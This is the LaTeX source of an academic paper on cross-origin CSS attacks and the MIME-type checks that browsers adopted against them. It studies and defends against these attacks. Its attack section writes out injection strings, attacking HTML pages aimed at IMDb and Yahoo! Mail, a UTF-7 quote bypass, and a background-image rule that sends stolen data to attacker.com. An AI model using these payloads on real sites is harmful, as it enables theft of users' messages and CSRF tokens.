\documentclass{acm_proc_article-sp}
\usepackage{url}
\usepackage{verbatim}
\usepackage[utf8]{inputenc}
\usepackage{microtype}
\hyphenation{brow-ser brow-sers tra-dit-ion-al}
\begin{document}

\title{Protecting Browsers from Cross-Origin CSS Attacks}
\numberofauthors{4}
\author{
\alignauthor
Chris Evans\\
      \affaddr{Google}\\
      \affaddr{cevans@google.com}
\alignauthor
Lin-Shung Huang\\
      \affaddr{Carnegie Mellon University}\\
      \affaddr{linshung.huang@sv.cmu.edu}
\and
\alignauthor
Collin Jackson\\
      \affaddr{Carnegie Mellon University}\\
      \affaddr{collin.jackson@sv.cmu.edu}
\alignauthor
Zack Weinberg\\
      \affaddr{Mozilla}\\
      \affaddr{zweinberg@mozilla.com}
}

\newcommand{\todo}[1]{\textbf{[TODO: #1]}}

\maketitle
\begin{abstract}
Cross-origin CSS attacks use style sheet import to steal confidential
information from a victim website, hijacking a user's existing
authenticated session and bypassing cross-site defenses.  We show how
to conduct these attacks with any browser, even if JavaScript is
disabled, and propose client-side defenses that still allow the vast
majority of web sites to function normally. We have implemented and
deployed defenses in Firefox, Google Chrome, and Safari. Our defense
proposal has also been adopted in Opera.
\end{abstract}

\category{K.6.5}{Management of Computing and Information Systems}
                {Security and Protection}

\terms{Security}

\keywords{CSS, MIME, Same-Origin Policy}

\section{Introduction}

The Web was originally envisioned \cite{wwwproposal} as a means to
collate a wide variety of human-readable, static documents, present
them via a unified interface, and facilitate browsing through them by
searching or via inter-document references. It has grown into a
versatile platform for all kinds of computing tasks, progressively
gaining support for data entry, client-side scripting, and
application-specific network dialogues.  Web-hosted applications have
supplanted traditional desktop applications for almost everything that
requires network communication, and are becoming competitive in other
areas.  It is not an exaggeration to say that the Web is the
development platform of choice for new software.

The \emph{same-origin policy}~\cite{mozillasameorigin} is the basic
principle used to secure Web applications from each other.  Scripts
belonging to one website can only communicate with that site's
servers, and cannot access the contents of pages loaded from other
sites.  However, this compartmentalization applies only to scripts.
An HTML document can load any sort of content---images, style sheets,
nested documents and “plug-ins,” even scripts---from any site,
same-origin or not.  In theory, this is a safe, useful capability:
rarely-changing content like images may be hosted on servers dedicated
to that purpose; popular script libraries (jQuery, Prototype, etc) may
be shared among sites; pages may incorporate YouTube-hosted videos
instead of just referring to them.  Browsers apply the same-origin
rule even within what appears to the user to be one unified “page;”
for instance, scripts can only inspect the DOM tree for an
\texttt{IFRAME}'s nested document if that document came from the same
origin.

Cascading style sheets (CSS) are the third principal component of Web
documents; they define appearance, just as HTML defines content and
Javascript behavior.  Of the three, CSS was invented last; proposals
for author control of style were circulated as early as
1993~\cite{css-history}, but the first complete specification dates to
1996~\cite{css1} and was not implemented in a widely-used browser till
1997~\cite{eich}.  Style sheets were originally considered no more
dangerous than images: they can only change the visual appearance of
the page, and they cannot contain script (except in Internet Explorer,
which has led to exploits \cite{joyexploit}).  Thus, cross-origin
constraints were originally not applied to style sheets.
Unfortunately, even these limited capabilities are enough to allow
some exploits.  For instance, \emph{clickjacking}
\cite{clickjacking} uses styling and \texttt{IFRAME}s to trick
the user into clicking a button that appears to control the current
page, but actually has an effect on some other site.

The CSS specification plans for future additions.  As long as the
syntax of new CSS features conforms to the “forward-compatible parsing
rules ” defined in \cite{syndata}, old browsers will skip over new
features they do not understand, while continuing to honor what they
do understand.  Web designers can thus build sites that take advantage
of the very latest CSS features but “degrade gracefully” and remain
usable with older browsers.  Unfortunately, the base grammar is so
permissive that it can find valid style rules in an input stream that
is actually HTML.  This leads to a security hole, first described in
2002 \cite{cssxss02} and rediscovered at least twice since then
\cite{cssxss05,cssxss08}: a malicious site can load HTML documents as
if they were style sheets, then use a variety of techniques to extract
information from the page.  To date, all published attacks have
required Javascript, and most have been specific to Internet Explorer.

\begin{figure*}[t]
\begin{center}

\includegraphics[width=5in]{victim-manipulation}
\vskip 0.5em
\setlength{\tabcolsep}{0.12in}
\begin{tabular}{p{1.5in}p{1.5in}p{1.5in}}
\centering
HTML document; secret data is highlighted.&
\centering
Attacker injects CSS leader and trailer around secret.&
\centering
CSS parser skips most of the document, makes secret
available via computed style.
\end{tabular}
\end{center}
\caption{Anatomy of the attack.}
\label{figure:victim}
\end{figure*}

In this paper, we present a general form of this attack that can be
made to work in any browser that supports CSS, even if Javascript is
disabled or unsupported.  We then propose and implement modifications
to browser handling of CSS that completely block the attack, as long
as the victimized web site does not make certain errors (discussed
below).  Our modifications have no negative side effects for most
websites, and have been adopted by Firefox, Google Chrome, Safari, and
Opera.

\section{Threat Model} \label{sec:threatmodel}

The threat model for cross-origin CSS attacks is essentially the same
as the threat model for other cross-origin attacks.  A \emph{web
  attacker}~\cite{jackson09thesis} is a malicious principal who owns a
domain name and operates a web server.  The web attacker's goal is to
steal data from another web site (the \emph{target}) that should only
be revealed to a particular user (the \emph{victim}) and not to the
attacker.  Alternatively, the goal may be to forge requests to the
target site using the victim's credentials.  Cross-origin CSS attacks
only aid the first goal, by themselves; however, the stolen secret
could easily be a session nonce, knowing which permits request
forgery.

\paragraph{Attacker Abilities}
The web attacker can send and receive arbitrary network traffic, but
only from its own servers.  It cannot modify, or even eavesdrop on,
traffic to other sites, nor can it generate “spoofed” network frames
that purport to be from some other site.

The web attacker is assumed to be able to entice the victim into
visiting its site at the same time as the target site.  (In practice,
this is easily done either by social engineering, or by manipulating
an advertisement network.)  However, it cannot install malicious
software on the victim's computer; if it could, all browser-level
protection would be useless.  The attacker is also assumed to be able
to inject semi-arbitrary strings into the page on the target site that
contains the secret to be stolen.  (This may seem unlikely, but is in
fact quite easy---for instance, \cite{cssxss08} does it by creating an
account on the target site with a carefully crafted user handle.)

\paragraph{Victim Behavior}
We assume that the user visits the attacker's web site with a popular
browser. In practice, this assumption can be supported by several
techniques for attacking users, e.g. buying web advertisements or
sending bulk e-mail to encourage visitors. By visiting
\texttt{attacker.com}, the attacker can instruct the victim's browser
to fetch external style sheets and also export data to remote
servers. As long as the victim's session with an honest web site
haven't expired, the attacker can instruct the victim's browser to
issue requests with the victim's cookies.  We do not assume that the
victim behaves discloses any sensitive information while on the
attacker's site; merely rendering the attacker's web content is
sufficient.

\paragraph{Target Site Behavior}
We assume that the attacker can inject semi-arbitrary strings into a
target domain that contains the secret content, which we refer to as
\texttt{target.com}. In practice, there are various methods to inject
strings into the target domain, e.g. reflection of URL
parameters. Specifically, we are interested in sites that allow
injection of strings that can be interpreted as CSS syntax tokens,
which are more common than sites that allow injection of arbitrary
HTML and JavaScript Sites that allow injection of arbitrary HTML and
JavaScript are already vulnerable to cross-site scripting attacks.

\section{Cross-Origin CSS Attacks} \label{sec:attacks}
In this section, we introduce cross-origin CSS attacks. First, we provide some
relevant background information on browser behavior. Next, we describe in
detail the steps of the attack. Then, we discuss the restrictions of
constructing this attack and suggest general areas that are exploitable.
Finally, we demonstrate attacks against several popular web applications as a proof of concept.

\subsection{Background}

In this section, we describe three aspects of browser behavior that are required for cross-origin CSS attacks: session authentication, cross-origin resources, and error-tolerant style sheet parsing.

\subsubsection{Session Authentication}
Web applications that handle sensitive data typically use client-side state to
main a distinct ``session'' for each visitor. HTTP cookies~\cite{rfc2109,
httpstate} are commonly used by web application to manage this state. HTTP
basic and digest authentication~\cite{rfc2617} can also be used to maintain
client sessions. Once a user has logged in to a web site, the browser ensures
that subsequent requests to that site will also be part of the same
authenticated session. Since the server knows who is making a request, it can
reply with confidential HTML documents intended only for that specific user.

\subsubsection{Cross-Origin Resources}
Browsers allow web pages to reference to cross-origin resources, enabling them to send requests to other origins. These references may take the form of a library import (scripts, style sheets) or navigation to a new document (hyperlinks, forms). The requests for cross-origin resources carry the cookies and HTTP authentication credentials of the site receiving the request, not the site that is making the request. Thus, it is important that the server receiving a cross-origin request ensure that the request is actually authorized by the user before making any changes to the user's account. Web applications typically include a secret token in the request to prevent such cross-origin request forgery (CSRF) attacks~\cite{csrf}. It is assumed that the attacker will not be able to learn the value of this secret token because the browser prevents the attacker from reading documents that are loaded across origins.

%\todo{Collin: Finish this section}

% Web browsers permit a variety of
% If a page on \url{http://a.com} provides a hyperlink, form, image, script, stylesheet, or embedded plugin that requests a resource on \url{http://b.com}.
%
%
% Note that browsers always sends the user's cookie when it loads any referenced style sheets, including cross-origin CSS. If a user was logged into the \texttt{target.com} while visiting the evil page, the browser would send the user's authentication cookie on all requests to \texttt{target.com} and be considered as valid authenticated requests. This behavior exploits cookie-authenticated web sites and potentially leaks the user's sensitive information in the server's response.
%
%
% The browser same-origin policy is intended to prevent other origins from reading these documents.
%
% Cross-site request forgery attacks abuse this behavior by sending cross-origin requests to the server that were not initiated by the user. A typical defense
%
% When a web

% Most often, state is handled using the HTTP cookie mechanism, enables web
% sites to authenticate clients and maintain client states, allowing web sites
% to not only serve static content but customize the content and appearance for
% each session user.
%

\subsubsection{Cascading Style Sheets} \label{sec:lax}
Error handling rules for style sheets are designed for forward compatibility
with future extensions~\cite{syndata}. These rules are designed to tolerate errors and recover at the next valid CSS rule. The parsing behaviors that most affect cross-origin CSS attacks are as follows:

\begin{itemize}
\item Single- and double-quoted strings and /* */ comments act like they
do in JavaScript. In all browsers except for Internet Explorer, multiline strings are not allowed. CSS does not have // comments.
\item Braces, parentheses, and brackets must be properly balanced and nested at all times.
\item Unlike HTML, angle brackets are {\em not} expected to balance or nest.
\item At top level (not inside braces) HTML comment delimiters are ignored.
There is no attempt to balance them.
\item The end of a style sheet closes all open constructs {\em without error}.  \end{itemize}

% \subsubsection{MIME Types}
% The HTTP \verb|Content-Type| header indicates the type of the content that is transmitted using Multipurpose Internet Mail Extensions (MIME)~\cite{mime} types such as \texttt{text/plain} for plain text and \texttt{image/jpeg} for JPEG images. A typical \verb|Content-Type| header is the following:
% \begin{verbatim}
% Content-Type: text/html; charset=utf-8
% \end{verbatim}
% Browsers use MIME types to determine how to handle the contents of HTTP responses. However, many misconfigured web servers fail to provide the correct MIME type of their resources.
% % Due to web site compatibility concerns, modern browsers use content-sniffing
% % algorithms~\cite{securecontentsniffing} to guess the correct MIME type by
% % inspecting the contents of HTTP responses.
% % Content-sniffing algorithms can override the provided MIME type and file
% % extension of the document. Unfortunately, this quirk introduces chameleon
% % documents, in which a document conforms to a benign file format (such as
% % PostScript) and contains malicious HTML.

% \subsection{Background}
% In this section, we provide background information about Cascading Style Sheets (CSS), the same-origin policy (SOP), and MIME types.
%
% \subsubsection{Cascading Style Sheets}
% Cascading Style Sheets~\cite{css} is a mechanism that lets web developers control the visual appearance of web documents using style sheet language. The design of CSS enables separation of document content from the visual appearance, including layouts, colors, and fonts. This allows web sites to adjusting its appearance, e.g. switching on-screen views to printable views, without requiring modifications to the document. Furthermore, documents are allowed to import external style sheets and let third parties to control a subset of the CSS rules. This feature allows web sites to share style sheets across a number of documents.
%
% \paragraph{Lax Parsing}
% In modern browsers, the CSS parser is actually very lax. The CSS parser will skip over any amount of invalid syntax in the style sheet until it finds the next valid rule. This is unlike the JavaScript parser that will abort on the first syntax error. A lax CSS parser gives the browser better compatibility for supporting misconfigured web sites, but unfortunately opens opportunities to attackers and enables the cross-origin CSS attack in this paper.
%
% \todo{Chris' comment: I think they are intending to be forward-compatible with brand new CSS syntax too. There is some small interpretation of invalid syntax: careful track seems to be kept regarding opened brackets. I think this includes various bracket types -- but of course may be browser dependent. Any CSS injection point may have to close an arbitrary number of these brackets: of the correct type in the correct order!}
%
% \subsubsection{Same-Origin Policy}
% The same-origin policy~\cite{mozillasameorigin} is the main security mechanism in modern browsers that provides isolation of contents between unrelated web sites. The same-origin policy restricts contents to access resources only from the same origin, which applies to scripting interactions, i.e. accessing the Document Object Model (DOM)~\cite{dom} and transferring data using the \texttt{XMLHttpRequest} API. In SOP, the origin of a resource is defined as the protocol, host, and port. The same-origin policy does not apply to fetching and executing remote libraries, including scripts and style sheets, from a different origin.
%

\subsection{Attack Steps}
In a cross-origin CSS attack, the attacker's main objective is to steal the victim's secret content from an honest web site on a different domain. The attacker is most likely interested in stealing sensitive information in a cookie-authenticated web page, or preferably a secret CSRF token hidden in the document that may allow the attacker to make requests on the user's behalf. In order to steal content from a different origin, the attacker loads the target document from an honest web site as a style sheet. The attacker must ensure that portions of the target document conform to CSS parser rules. As soon as the victim visits the attacker's evil page, the cross-origin data is imported as style properties and stolen. The steps of the cross-origin CSS attack is shown in Figure~\ref{figure:steps}. To describe the cross-origin CSS attack in detail, we decompose the attack into three main steps: CSS string injection, cross-origin CSS import, and confidential data extraction.

\begin{figure*}
\centering

\includegraphics[width=\linewidth]{steps}
\caption{Steps of the Cross-Origin CSS Attack}
\label{figure:steps}
\end{figure*}

\subsubsection{CSS String Injection}
One might expect that parsing a non-CSS document as a style sheet would contain numerous syntax errors and fail to load. However, due to the error-tolerant CSS parsing behavior described in Section~\ref{sec:lax}, portions of a non-CSS document with valid CSS syntax can still be successfully parsed and recognized as style sheet rules. Thus, it is sufficient for the attacker to inject strings into the target document that will form a valid style rule. In practice, there are several methods that may allow a web attacker to inject strings into the target domain, e.g. reflection of user-controlled strings in URL parameters.

We illustrate an example of CSS string injection in Figure~\ref{figure:victim}. Suppose that there is a sensitive content, represented with the string ``SECRET'', in an HTML document on an honest web site that the attacker wants to steal. Assuming that the attacker has sufficient influence over the web page to control the text preceding and succeeding the secret string, the CSS string injection can be constructed based on common CSS properties that have string type values, i.e. \texttt{font-family}, \texttt{background-image}, and \texttt{list-style-image}. Given the ability to inject arbitrary strings into the target domain, the attacker can craft the HTML document to contain a CSS construct as follows:
\begin{itemize}
\item CSS opening string: \verb|{}BODY{font-family:"|
\item CSS termination string: \verb|"}|
\item Target document: \verb|<HTML>..SECRET..</HTML>|
\item Injected document: \\
\verb|<HTML>..{}BODY{font-family:"SECRET"}..</HTML>|
\end{itemize}
The injected HTML document will appear to the CSS parser as containing a valid CSS rule. The fonts of the attacker's page will be styled with a /texttt{font-family} specified as the stolen string ``SECRET''. Note that the seemingly redundant pair of brackets in the injected CSS opening string re-syncs the CSS parser to make sure that the evil CSS rule parses properly. All the other non-CSS text in the document are skipped by the CSS parser, thus will not affect the parsing of the evil CSS rule. Once the injected document is loaded, the attacker can easily steal the secret string by reading the computed \texttt{font-family} style of the attacker's page.

\subsubsection{Cross-Origin CSS Import}
When the victim user visits \texttt{attacker.com}, the attacker's evil page instructs the victim's browser to fetch and load the injected target document as an external style sheet. Documents can import style sheets from remote servers by using the HTML~\cite{html} link tag:
\begin{verbatim}
<LINK REL="stylesheet" HREF="http://target.com">
\end{verbatim}
Alternatively, style sheets can be imported included using the CSS ``import'' directive:
\begin{verbatim}
<STYLE>@import url(http://target.com);</STYLE>
\end{verbatim}

\subsubsection{Confidential Data Extraction}\label{sec:extraction}
The final step for the attacker is to extract the confidential data from the cross-origin imported styles in the victim's browser. The extraction methods are summarized in Table~\ref{table:DOM}. With JavaScript enabled, the attacker's evil page may read the full CSS text via the Cascading Style Sheets Object Model (CSSOM) or the computed styles of specific CSS properties via DOM. Furthermore, a variant of the cross-origin CSS attack can extract the stolen data even with JavaScript disabled.

\paragraph{CSSOM}
One of the methods of extracting confidential data is to use JavaScript to access the full CSS text via CSSOM. Safari and Google Chrome allow access to the raw text of loaded style sheets, including the cross-origin imported CSS rules (without comments, thankfully). The attacker could read the raw text of cross-origin CSS via JavaScript methods \texttt{document.styleSheets[].cssRules[].cssText} and also\linebreak \texttt{window.getMatchedCSSRules().cssText}. This behavior violates the same-origin policy  and can leak cross-origin data from documents with semi-valid CSS constructs. Other browsers protect access to the raw text of style sheets more restrictively. Internet Explorer restricts access to the raw text of cross-origin CSS loads unless the MIME type is correct, via \texttt{document.styleSheets[].rules[].style.cssText}. Firefox and Opera do not allow access to raw text of cross-origin loaded style sheets.

\paragraph{Computed Style}
Another method of data extraction using JavaScript is to access the computed styles via DOM. All major browsers support using JavaScript to read computed styles, even loaded from cross-origin, by calling the \texttt{window.getComputedStyle} method or retrieving the\linebreak \texttt{currentStyle} object. Given that the style name and property name are known, the attacker can extract the confidential data from the loaded style property. Even if access to raw CSS text is blocked, the ability to read cross-origin loaded CSS styles is enough to construct serious attacks.

\begin{table}
\centering
\begin{tabular}{|c|c|c|c|c|c|} \hline
Methods&IE&FF&Opera&Safari&Chrome\\ \hline
\texttt{styleSheets[]}&&&&\checkmark&\checkmark\\
\texttt{.cssRules[].cssText}&&&&&\\ \hline
\texttt{getMatchedCSSRules()}&&&&\checkmark&\checkmark\\
\texttt{.cssText}&&&&&\\ \hline
\texttt{getComputedStyle}&&\checkmark&\checkmark&\checkmark&\checkmark\\ \hline
\texttt{currentStyle}&\checkmark&&\checkmark&&\\
\hline
%\texttt{rules[].style.cssText}&\checkmark&&&\checkmark&\checkmark\\ \hline
\texttt{background-image}&\checkmark&\checkmark&\checkmark&\checkmark&\checkmark\\
\hline\end{tabular}
\caption{Methods of Extracting Information from Cross-Origin Style Sheets}
\label{table:DOM}
\end{table}

After extracting the confidential data hidden in the style properties, the attacker may send the stolen string to his own evil servers or even mount CSRF attacks. There are various well-known methods for the attacker's web page to send information back to the attacker without any user interaction. For example, the attacker could use JavaScript to send data through an HTML hidden form or through the \texttt{XMLHttpRequest} API.

\paragraph{Without JavaScript}
Another method is available to exploit users that have disabled JavaScript in their browsers. This might occur if the user has installed the popular NoScript security tool~\cite{noscript}. The attacker can extract data without using JavaScript by injecting the CSS \texttt{background-image} property string as follows:
\begin{verbatim}
<HTML>..{}BODY{background-image:url(http://attacker
.com/?SECRET);}..</HTML>
\end{verbatim}
Using this method, the secret string is appended to the path or query string of the attacker's server URL. Therefore, the background of the attacker's page will be styled with a background image loaded from an URL, the path of which contains stolen data. The stolen data can then be harvested from the attacker's web server logs. If the stolen data contains a CSRF defense token the attacker can launch a CSRF attack later in the same session, since cross-origin forms do not require JavaScript.

\subsection{Attack Limitations}
There are a few restrictions that can hinder the attacker's ability to conduct a cross-origin CSS attack.

\subsubsection{Insufficient Injection Points}
The first and most crucial requirement of the cross-origin CSS attack is to contain the secret data into a CSS property declaration. In order for the CSS parser to properly parse the evil CSS rule, certain symbols must be inserted at the beginning and at the end of the stolen string. In general, the attacker must have sufficient influence over the target document to control two injection points to insert the CSS property opening strings and termination strings, respectively. Typically, social web sites are relatively more susceptible to this attack since the pages often contain user-controlled strings such as comments on photos. For some web pages, a second injection is not required because the termination string happens to exist later in the document. This is possible since the termination string can be as short as just a quotation mark and an ending bracket.

\subsubsection{Character Escapes} \label{sec:escapes}
In the CSS specification~\cite{cssspec}, strings can either be written with double quotes or with single quotes. Double quotes cannot occur inside double quotes, and the same applies for single quotes. Therefore, the attacker has the choice to inject either single or double quotes depending on the occurrence of quotes in the secret data. In a context where both quotes are escaped, it becomes more difficult to inject a CSS string. However, a variation of the attack can bypass this restriction by injecting the CSS property \texttt{background-image}. For the \texttt{background-image} property, the URL value is written with the functional notation \texttt{url()}, which does not require the use of single or double quotes around the URL string itself. The CSS specification does define that certain characters must be escaped in an unquoted URL, e.g. parentheses, commas, white spaces, single quotes and double quotes. However, in Internet Explorer, the CSS parser does not require any of these characters to be escaped in an unquoted URL and will parse until it encounters a closing parentheses and a semicolon.

\paragraph{Forcing UTF-7}
The requirement for quotes not to get escaped can sometimes be bypassed in browsers that support UTF-7 encoding, including Firefox and Safari. If the target web sites fails to specify a character set in the HTTP Content-Type header, the attacker's evil page can force the imported remote resource to be parsed as UTF-7 encoding:
\begin{verbatim}
<LINK REL="stylesheet" HREF="http://target.com"
CHARSET="utf-7">
\end{verbatim}
By forcing UTF7, either a single or double quote may be injected by rendering it in the UTF-7 character set, i.e. ``\texttt{+ACc-}'' for single quote and ``\texttt{+ACI-}'' for double quote. This will cause the injection to survive any output escaping of the web application. A significant number of web sites actually do not specify character sets in their HTTP responses; we found that only 584 out of the top 1,000 web sites ranked by Alexa~\cite{alexa} specified character sets for their home pages via the HTTP Content-Type header. Some web sites specify the character set information using meta tags with the \texttt{http-equiv} attribute in the HTML head element:
\begin{verbatim}
<META HTTP-EQUIV="Content-Type" CONTENT="text/html;
charset=utf-8">
\end{verbatim}
Browsers may use meta tags to refine the information provided by the actual headers, but can also ignore it. If a document declares a character set in a meta tag but not in the response header, the referring page can override the character set with the \texttt{charset} attribute in the parent link tag. Thus, we recommend that sites always use HTTP headers to specify the MIME type and character set of documents.

\subsubsection{Newlines}
In CSS, a string cannot directly contain a newline. To include a newline in a string, the line feed character must be escaped. Therefore, another barrier of this attack is that any un-escaped newline in the stolen string will break the CSS parsing. This is a very common condition in many web pages, which avoids potentially serious attacks. However, many rich-functionality web sites are often exploitable due to serving cookie-authenticated URLs with JSON or XML responses that commonly lack newlines. Some web sites even allow users to control the formatting of server responses, e.g. disabling pretty printing, which may be extremely dangerous.
%\paragraph{Internet Explorer}
The CSS parser in the Internet Explorer accepts both newlines in CSS strings and newlines in unquoted URL strings, regardless of whether they are escaped or not. This behavior makes attacks significantly easier to construct in Internet Explorer.

\subsection{Example Attacks}
In this section, we present several examples of cross-origin CSS attacks on popular web sites. First, we describe an attack on a popular movie database web site that leaks private messages of registered users, in the Internet Explorer browser. Then, we describe a cross-browser attack on a popular web mail application that leaks the subject headings of the received e-mails in the victim user's inbox, and even reveals secret CSRF tokens.

\paragraph{IMDb} IMDb is a popular online database of movies and related information, which allows users to rate films and make posts on message boards. Some of the features for a registered account include adding users to their friends list and sending private messages to other users. Targeting the user's private messaging page, the attacker can mount an attack with the following steps:
\begin{enumerate}
\item{The attacker sends an evil private message to the victim's account with the subject line:\\ \texttt{\{\}body\{font-family:`} }
\item{While signed in to IMDb, the victim visits the attacking page on \texttt{attacker.com}, constructed as follows:}
\end{enumerate}
\begin{verbatim}
<HTML>
<HEAD>
<LINK REL="stylesheet" HREF="http://www.imdb.com/
user/ur12345678/boards/pm/">
<SCRIPT>
function steal() {
  alert(document.body.currentStyle[`fontFamily']);
}
</SCRIPT>
</HEAD>
<BODY onLoad="steal()">
</BODY>
</HTML>
\end{verbatim}

The attacking page imports the victim's private messaging page as a style sheet resource. As long as the victim's session cookie has not expired, the browser will automatically sign in using the victim's cookie when fetching the page. The injected subject line in the inbox allows portions of the document to be parsed as a valid CSS construct. Due to the existance of double quotes in the target page, we chose to use single quotes in the CSS injection string to avoid string termination. The stolen HTML fragment would contain the subject and body of all preceding private messages, which can be extracted by reading the computed \texttt{background-image} style in JavaScript.

Note that the target URL contains the victim's account string ``ur12345678'', which is public and can be simply fetched from any user profile link on the message board. In this example, a single injection point is sufficient due to the highly probable existence of the termination string. Such a vulnerability may be widespread on many low security sites.

\paragraph{Yahoo! Mail} Yahoo! Mail is a free web mail service that lets users send and receive e-mails using any popular web browser with cookies and JavaScript enabled. After a user signs in with a valid account, the web site can authenticate the user with browser session cookies for as long as two weeks without signing out. Targeting the Yahoo! Mail for Mobile home page, the attacker can mount a cross-browser attack on victims that are signed in with the following steps:
\begin{enumerate}
\item{The attacker sends an evil e-mail to the victim's account with the subject line:\\
\texttt{');\}} }
\item{The attacker waits for sensitive e-mails to fill the victim's inbox.}
\item{The attacker sends another evil e-mail to the victim's account with the subject line:\\ \texttt{\{\}body\{background-image:url(`}}
\item{While signed into Yahoo! Mail for Mobile, the victim visits the attacking page, constructed as follows:}
\end{enumerate}
\begin{verbatim}
<HTML>
<HEAD>
<LINK REL="stylesheet" HREF="http://m.yahoo.com/mail">
<SCRIPT>
function steal() {
  if(document.body.currentStyle) {
    alert(document.body.currentStyle[`backgroundImage']);
  } else {
    alert(window.getComputedStyle(document.body, "").
backgroundImage);
  }
}
</SCRIPT>
</HEAD>
<BODY onLoad="steal()">
</BODY>
</HTML>
\end{verbatim}

The attacking page imports the Yahoo! Mail for Mobile page as a style sheet resource, which serves a single-line formatted HTML containing the victim user's inbox. Similarly, the injected subject lines in the inbox allow portions of the document to be parsed as a valid CSS construct. The stolen HTML fragment would contain the subject headings of all e-mails delivered to the victim between the two evil e-mails.

The stolen HTML fragment also reveals a hidden ``mid'' value that should appear to be an unguessable key to a web attacker. Accordingly, it is reasonable for the mail application to rely on it as a secret token to defend CSRF attacks. This is indeed the case for the e-mail deletion operation, which relies on ``mid'' as a CSRF defense token.

\paragraph{Hotmail}
We found that Windows Live Hotmail was vulnerable to a nearly identical attack as Yahoo! Mail. By sending two evil e-mails to the victim's Hotmail account and importing the mobile mail page ``\texttt{http://mail.live.com/m/}'' as a style sheet resource, an attacker can read secret messages and steal secret tokens. Due to the use of newlines in the stolen HTML fragment (unlike Yahoo! Mail for Mobile), this attack is limited to the Internet Explorer browser.
The existence of nearly identical attacks demonstrates the general nature of the cross-origin CSS vulnerabilities. We expect that many social networking sites are vulnerable to variants of this attack as well, because the attacker can leave arbitrary text comments that are rendered somewhere on the victim's view of the page.

\section{Defenses} \label{sec:defenses}
In this section, we describe the defenses against cross-origin CSS attacks.
First, we propose to apply stricter browser requirements for loading
cross-origin CSS resources. Next, we present an evaluation of web site
compatibility for our proposal. Finally, we state the progress of adoption for
our proposal in major browsers and discuss the remaining issues.

\subsection{Proposal: Restrictions on Loading Cross-Origin CSS} \label{sec:proposal}
To prevent cross-origin
CSS attacks, we propose that browsers should apply stricter checking when
loading cross-origin CSS files. In fact, most modern browsers support a
standards-compliant mode, which requires the correct MIME type when loading CSS
files. However, this mode is only enabled when the web developer declares a
document type definition (DTD), e.g. \verb|<!DOCTYPE html>|, in the referring
document. When no DTD is present, the browser renders the document in
``quirks'' mode for better backward-compatibility. Of course, in a
cross-origin CSS attack, the attacker is perfectly willing to omit the DTD in
order to trigger quirks mode.

Our proposed defense, therefore, is to enforce MIME type checking for
cross-origin CSS files, even in quirks mode. We describe two variants on this
proposal: a strict approach that does not allow any MIME type mismatches, and
a conservative approach that maximizes web site compatibility by allowing
apparently benign MIME type mismatches.

\subsubsection{Strict Approach}
In the cross-origin CSS attack, the attacker's evil web page confuses the victim's browser to parse the injected target document as a style sheet. If browsers strictly required external style sheets to specify the \texttt{text/css} MIME type, malicious web sites would not be able to import crafted HTML documents as style sheets. One effective solution is to let browsers always check the MIME type for cross-origin CSS resources and block CSS loads with an invalid MIME type. When strict MIME type checking is enforced, at least for cross-origin CSS loads (if not globally), browsers would be able to protect non-CSS target documents from being stolen.

The major concern of the strict approach is that any misconfigured cross-origin resources that fail to specify a valid MIME type would be blocked. Strict MIME type checking relies on web developers to correctly deploy their web sites and provide valid MIME types. Unless every web developer properly configures their servers to send the correct Content-Type response header, the strict approach will inevitably introduce false positives and block CSS imports on non-attacking web sites.

\subsubsection{Conservative Approach}
To address web site compatibility concerns, we also propose a conservative approach that blocks most attacks while tolerating some common MIME type misconfigurations. In order to reduce false positives in the strict MIME type approach, an additional level of checking is applied to cross-origin CSS resources that have invalid MIME types. When a valid MIME type is not provided, the browser will try to parse the cross-origin CSS but rejects the style sheet upon encountering the first syntax error. This simple parsing test helps to determine whether the imported CSS file is an injected target document. Therefore, the devised solution blocks CSS loads only when all of the following conditions are met:
\begin{itemize}
\item{The CSS resource is a cross-origin load.}
\item{The CSS resource has an invalid MIME type for CSS.}
\item{The alleged CSS file does not start with a syntactically valid CSS construct.}
\end{itemize}
The above rules will block most cross-origin CSS attacks because the target documents that are not CSS files have headers that will cause a broken first CSS descriptor, e.g. HTML or XML headers. We also assume that a legitimate CSS file will unlikely have a syntax error at the beginning of the file and a broken MIME type, thus this heuristic should not break, or affect the rendering, of most existing sites. Only the cross-origin CSS files that have an invalid MIME type and start with malformed syntax are determined as an attacked document and should be rejected.
